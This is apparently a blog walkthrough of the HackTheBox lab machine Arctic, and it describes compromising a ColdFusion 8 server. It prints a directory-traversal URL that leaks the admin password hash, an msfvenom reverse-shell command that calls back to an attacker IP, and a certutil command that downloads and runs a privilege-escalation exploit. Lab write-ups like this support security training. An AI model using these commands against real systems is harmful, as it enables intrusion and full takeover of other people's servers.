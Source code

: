 ```yaml
---
title: Arctic - HackTheBox Walkthrough
date: 2021-10-22 12:00:00 
categories: [HackTheBox,Windows]
tags: [directory traversal,windows-exploit-suggester,certutil]
img_path: /assets/img/HTB/Arctic/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Arctic` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Thu Oct 21 13:54:37 2021 as: nmap -sC -sV -v -oN nmap-scan -Pn 10.129.240.247
Nmap scan report for 10.129.240.247
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 21 13:57:31 2021 -- 1 IP address (1 host up) scanned in 174.64 seconds
```
3 ports are open `135,49154:MRPC` and `8500` possibly running FMTP.
## HTTP Enumeration
Enumerating the port 8500 it turn out to be http, it shows a directory listing.

![01-web](01-web.png)

After open some pages I came across with `/CFIDE/administrator`.

![02-web](02-web.png)

Which displays a login page for `Adobe ColdFusion 8`

![03-login](03-login.png)

# Initial Foothold
First thing I did was check if it had any vulnerability and I found this [exploit](https://www.exploit-db.com/exploits/14641) which is a Directory Traversal.
This exploit shows the content of `password.properties` file.

![04-exploit](04-exploit.png)

We can do it manually just using the next URL.
```text
http://10.129.240.247:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
Looking at the source code, it give us the password hashed for the user `admin`

![05-hash](05-hash.png)

But [crackstation](https://crackstation.net/) can crack it.

![06-passwd](06-passwd.png)

User|Password
-|-
admin|happyday

Once we are in, just need upload a reverse shell scheduling a new task in the system.
Before that create a payload using `msfvenom`.
```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.75 LPORT=443 -o shell.jsp
```
The category of "Debugging & Logging > Schedule Task" will allow us to upload files, and "Server Settings > Mapping" gonna display the directory path of `/CFIDE` this will be useful at the time of create the task.

![07-task](07-task.png)

The directory path to CFIDE is `C:\ColdFusion8\wwwroot\CFIDE`,  after knowing this we can go to "Debugging & Logging > Schedule Task".

![08-path](08-path.png)

Create a Python HTTP Server in the same directory that is our payload and complete the name,url of our python server, the admin's credentials and the path to save our shell.jsp file like the screenshot below.

![09-upload](09-upload.png)

Submit it and click in run, after that, I went to this URL: `http:\\10.129.240.247:8500\CFIDE`

![10-task](10-task.png)

Here we see our payload.

![11-shell](11-shell.png)

At the time of click `shell.jsp` we will recive the reverse shell on the netcat listener port.

![12-shell](12-shell.png)
# Privilage Escalation
Running `systeminfo` shows some information of the system. I copied the output and saved it in a file `sysinfo.txt` to use it with [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py), this tool needs the python xlrd library.
```console
$ python -m pip install xlrd
$ pip install xlrd=1.2.0
```
Create a database and run it using the file created.
```console
$ python windows-exploit-suggester.py --update
$ python windows-exploit-suggester.py --database 2021-10-21-mssb.xls --systeminfo sysinfo.txt
```

![13-suggester](13-suggester.png)

Searching about `MS10-059` I found a executable in this [repository](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

I downloaded the binary, opened a python http server and on the victim machine ran this commands to transfer the `.exe` file:

```text
certutil.exe -urlcache -f http://10.10.14.75/MS10-059.exe
C:\Windows\Temp\MS10-059.exe 10.10.14.75 443
```

![14-certutil](14-certutil.png)

It give us a shell as Administrator.

![15-root](15-root.png)

That’s it for now guys. Until next time.

